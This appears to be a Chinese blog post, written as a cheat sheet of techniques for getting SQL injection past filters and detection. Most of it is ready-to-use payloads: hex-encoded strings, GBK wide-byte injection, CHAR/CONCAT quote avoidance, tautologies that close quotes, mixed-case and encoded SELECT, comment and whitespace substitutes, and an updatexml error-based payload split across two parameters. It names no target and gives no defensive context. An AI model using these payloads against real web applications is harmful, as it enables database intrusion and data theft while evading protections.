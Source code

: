 ```yaml
---
published: true
layout: post
tags:
  - sae
categories: null
description: 本文章将sql注入的绕过方法
---
```

## sql注入检测的一些绕过方法  
### 在mysql和mssql中重要的数据库：
- Information_schema数据库：作用是保存所有数据库信息。 
- information_schema.tables存储了数据表的元数据信息，下面对常用的字段进行介绍： 
- table_schema: 记录数据库名；
- table_name: 记录数据表名；
- table_rows: 关于表的粗略行估计；
- data_length : 记录表的大小（单位字节）；
- Limit num,num2;从num开始读取num2条信息。//limit 0，1读取第一条信息

### 绕过sql注入检测的技巧:

### 遇到单引号转译 可以考虑使用16进制绕过：
table_name=’users ’——》table_name=0×757365727    
### 当’被转译为 \’ 时可以考虑宽字节注入：
   发生的位置就是PHP发送请求到MYSQL时字符集使用character_set_client设置值进行了一次编码(即宽字节 GBK字符集)由于编码范围的问题，使用%df就会拼接%5c(\),从而绕过。在post输入框中%df不会自动转码，需手动输入   
### 避开单引号过滤：
1.输入单引号没反应，尝试输入”  
2.可以使用ascII 替代字符串不必使用单引号：       
- mysql:连接字符串是CONCAT函数,select name=concat(CHAR(97),char(114))   
-Oracle: select name=chr(97)\|\|chr(114)  
-Ms-SQL:select name=char(97)+char(114)

### --注释符被阻止时考虑闭合: 
‘ or 1=1 - - 可以使用  ‘ or ‘a’ =‘a    
### =号被阻止：  
使用<>（不等于）例：!(table_schema<>database())  
### select 被过滤:  
使用 SeLEct selselectect、%53%45%4c%45%54、se%a0lect来绕过。   
### 空格过滤:  
1.使用注释 /\*foo\*/:   
select/*foo*/uername,password/\*foo\*/from  
2.使用特殊符号代替空格:  
%0b TAB键（垂直）、%a0 空格 、%09 TAB键（水平）、%0a 新建一行、 %0c 新的一页 、%0d return功能 
  
在url中使用--注释时，可能会需要使用--+才能成功注释 
and或者or被完全过滤时，可以使用逻辑运算符 && ，||（要转换为url编码&-）%26） 

### HPF(http分割注入)
  post请求中username参数可以使用updatexml等报错函数，但却不能用（）但password可以用（），这样就可以进行构造
username=1′and updatexml/*&password=*/(1,concat(0x24,(select database()),0x24),1) and ‘1 ,这个构造语句把中间的password参数给注释掉了
